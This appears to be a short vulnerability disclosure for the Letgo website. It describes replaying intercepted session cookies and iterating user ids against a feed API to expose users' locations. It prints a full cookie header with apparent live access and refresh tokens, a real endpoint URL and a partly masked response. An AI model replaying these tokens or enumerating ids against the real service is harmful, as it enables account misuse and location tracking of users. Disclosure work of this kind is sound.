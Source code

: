 # About Letgo Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: bm_sz=8FB1E16AC462956C1010AE408ADF8877~YAAQTfferfSGKKGOAQAAHKZ+ohf081udjRXjGcjfZnbDk7H/2OxsL/R7NYg/G7UE1MCrQ2bnPtVZ806M6fYxdpVT9y/ZbJS0RN+mabHte0freZLVXsHSIyZg97Fdq6HnhkKFb0KCkyXTbe//dQZ4eEddTe3JEi6MitXWtfC5FEgEbm8i3p0oCxQnEzs1HvHPJ+FR+OnnYjS0NMVyg6o7qjuLJJljTOrB7HfUE3sl+xFDsEPkGUcbBqwaLEJf6x1ED9gjPIxHVQRz6oePTYJd4HCn5v1HRxqeYZ5mdymhQssZLzHvq73hyx67Na26ifiNzH0IbUCOkDNXldUqzrcCrNb9nGL/c3wKyqKgra0T2RhVzHA4uNgU5FVDJNZNsqpHVBIQv1V77o5NTHNG/w==~3619128~3290949; _abck=5F5D0B93832422F37ED1EDA73AB210B4~0~YAAQTfferTOJKKGOAQAAiK5+ogtRXJrIUvxPeoU8BODl/dqLEFzUAb9ZPERFYauL7HoBojf8M5jsP2lXVh5opGlbF0kiaOHGbkisD9z1QkGF//UrXAGuKkBr0OS33x3d+5PlYPXEvtUROxVCo7oFdtdqr3IzhO1wi8kvACI0F3g9vazv3Lyjpvh3RRN6kBf9SKpap73CpmF72ieDHJl+6n8OR6mXq/Qd6IsXpwROLPPZAYoI9pBUd/BFj4myBk+HFL4W2t2pSw3XcDQBTfL3KRrIsfdE8kFCEDfNThkvfhrajO+lqikR/+blXtH1dWI3cu8FGo7i2LrEra76/WLsshnu4+Ft6Vcq85HfZdq3Fs64wRNX6yM1vP0mQoDLXvSGMTKWsdvWn4Lkv4U19iGXYETBz0aIOsRr~-1~-1~-1; home_page_banner=1; relevanceUser=04610500735853733; locationPath=%5B%7B%22id%22%3A4000040%2C%22name%22%3A%22%C4%B0stanbul%22%2C%22type%22%3A%22CITY%22%2C%22longitude%22%3A28.97696%2C%22latitude%22%3A41.00527%2C%22parentId%22%3A1000001%7D%5D; __exponea_etc__=00a0a0b4-b6a5-489e-b752-51bc5929a138; __exponea_time2__=1.330536127090454; g_state={"i_l":0}; OptanonAlertBoxClosed=2024-04-03T05:46:58.824Z; OptanonConsent=isGpcEnabled=0&datestamp=Wed+Apr+03+2024+13%3A46%3A58+GMT%2B0800+(%E4%B8%AD%E5%9B%BD%E6%A0%87%E5%87%86%E6%97%B6%E9%97%B4)&version=202303.2.0&browserGpcFlag=0&isIABGlobal=false&hosts=&landingPath=NotLandingPage&groups=C0002%3A1%2CC0003%3A1%2CC0004%3A1%2CC0001%3A1; user=j%3A%7B%22id%22%3A%22506161522%22%2C%22name%22%3A%22shix%20Yang%22%7D; t=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCIsImtpZCI6ImViT21QTmlrIn0.eyJncmFudFR5cGUiOiJlbWFpbCIsImNsaWVudFR5cGUiOiJ3ZWIiLCJ0b2tlblR5cGUiOiJhY2Nlc3NUb2tlbiIsImlzTmV3VXNlciI6ZmFsc2UsImlhdCI6MTcxMjEyMzIzNSwiZXhwIjoxNzEyMTI0MTM1LCJhdWQiOiJvbHh0ciIsImlzcyI6Im9seCIsInN1YiI6IjUwNjE2MTUyMiIsImp0aSI6IjEzNDMyMjdkZjA4YzEwNjE1YjhkZDdmN2ZhOTU1M2M1YTBiODhjNDUifQ.blLRqvpaMIaZf7ZnpL0QrfAhFgCQe7Zo6A8UgPa0Nw8d28SwqM2dramysONbeDCayaGDGqevzrUL-CZRyE018hi6Z8uC43swiwl43NG8ORp2L8CQicOlCL7S1pNpJUcRRqKkgIFgtK3CPH55omHtvYGLZQPJRocf86bMRzmZ1rJmfiG7uodU4dX6BZKNzL-tfDd-byMx7hbledNJnfosqiroDjcmbckLgH4dJ-1IvmHj5dEUyTUnlL7QIVIzS9vyUzA-5whI_oed_lF0DDb3zFzmW9ai47OHVjL0rZsiA3j3BowGXIBi64JRK9MSKuINzsuiaGINrhFmTfAVXPEZkw; rt=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCIsImtpZCI6ImViT21QTmlrIn0.eyJncmFudFR5cGUiOiJlbWFpbCIsImNsaWVudFR5cGUiOiJ3ZWIiLCJ0b2tlblR5cGUiOiJyZWZyZXNoVG9rZW4iLCJyZWFjdGl2YXRlZCI6ZmFsc2UsImlhdCI6MTcxMjEyMzIzNSwiZXhwIjoxNzIwMTU4NDM1LCJhdWQiOiJvbHh0ciIsImlzcyI6Im9seCIsInN1YiI6IjUwNjE2MTUyMiIsImp0aSI6IjEzNDMyMjdkZjA4YzEwNjE1YjhkZDdmN2ZhOTU1M2M1YTBiODhjNDUifQ.FmgGwzHC4CVmn6EFM4Xq65VPtKXHuDJSg8pfaAjT0OKn_9SbwSdTuhEm2rA7GgbwQiCH6H9GjT-xP-mgDgZqoZVL45aAwWkKTzcrLpx7vLCAzcLuVccOqf0q_8gfPUH4y7m3NUxyXUYeixv9Zpwy3SPHATWERlCIEwvAtG1U6fSIQuxI9D6hDRc47LfyPEahWZlX1zKz8vO0chHMomjYCGtXVQ_BwlTxsKCEPK3ZVni2fHGeHuSE-EMXZSfk-GVVIKLMAF8jh4qrVE4efx22ED6613JIBmkFdmsdmswksQyOzTnr6_VF-4838YaFEftcO6BVChXSfhtmhMk9bjc2CA; lf=1; ct=eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCIsImtpZCI6ImViT21QTmlrIn0.eyJ0b2tlblR5cGUiOiJjaGF0VG9rZW4iLCJ2ZXJzaW9uIjoiMSIsImlhdCI6MTcxMjEyMzIzNSwiZXhwIjoxNzEyMjA5NjM1LCJhdWQiOiJvbHh0ciIsImlzcyI6Im9seCIsInN1YiI6IjUwNjE2MTUyMiIsImp0aSI6IjEzNDMyMjdkZjA4YzEwNjE1YjhkZDdmN2ZhOTU1M2M1YTBiODhjNDUifQ.e87_pjSMCoBFvy5YcDaRB-7AD9rPrt_eLTdq1SIyh8xqohgPxDpSd0CIs46l6z4pWkbAu7NfbyPtDfhmSyls2-N0_y8PNNCMMFVVHxmNuH5DCcSfMA9XNrTwtReElKjUP50shRGFvddUHcKzZ9M2W777kPHwH4MmAYnlvll9KU8FKh_0o1Mv5yDE9JUXGdqfPakFAK6k0j-mIAMht-tixOKV0yc-KmxBpAckofwU1rksgGATqrfAJC-CovN-xRDHjxyTe1G9UVP7w3PSWiOvr6ohlgWx4wP2picpIF1lnrXCuYSZ0sf8ICYWjGuKWgXMMAmC5VXhjsG9oAFIBXAHCQ; nt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MTIxMjMyMzUsImJyYW5kIjoibGV0Z28iLCJjb3VudHJ5Q29kZSI6InRyIiwidXNlcklkIjo1MDYxNjE1MjJ9.zQMPZKu_nUZk3Sbje1SkJfyvIjLqfyvlwgMInsn-Qz8; onap=18ea27f6376x507c2fcc-1-18ea27f6376x507c2fcc-22-1712125041; reply_restriction=false; kyc_reply_count=0; G_ENABLED_IDPS=google; G_AUTHUSER_H=0
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: country,city,specific location,latitude and longgitude.

> Request method: GET, information can be obtained by traversing user id,such as "18d5faa06d0x3c1d96aa","18d5faa06d0x3c1da96a
"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|-------------------|---|-----------|
|shix Yang|https://www.letgo.com/api/relevance/v4/feed?latitude=41.00527&location=4000040&longitude=28.97696&page=1&user=18d5faa06d0x3c1d96aa|user=18d5faa06d0x3c1d96aa|



### Leaked packet cases 
``` 
{
  "id": "1679006051",
  "score": 0.95,
  "spell": {
    "id": 114,
    "key": "DETECT_POISON_ES",
    ...
  },
  "status": {
    "status": "active",
    ...
  },
  "category_id": "1201",
  ...
  "user_id": "167174742",
  "locations_resolved": {
    "COUNTRY_id": "1******",
    "COUNTRY_name": "Türkiye",
    "ADMIN_LEVEL_3_id": "4*****",
    "ADMIN_LEVEL_3_name": "İ***",
    "SUBLOCALITY_LEVEL_1_id": "5*****",
    "SUBLOCALITY_LEVEL_1_name": "B*******"
  },
  ...
	 "locations": [
              {
                  "lat": **.***,
                  "lon": **.***,
                  "district_id": "5000443",
                  "city_id": "4******"
              }
          ],
...
}
```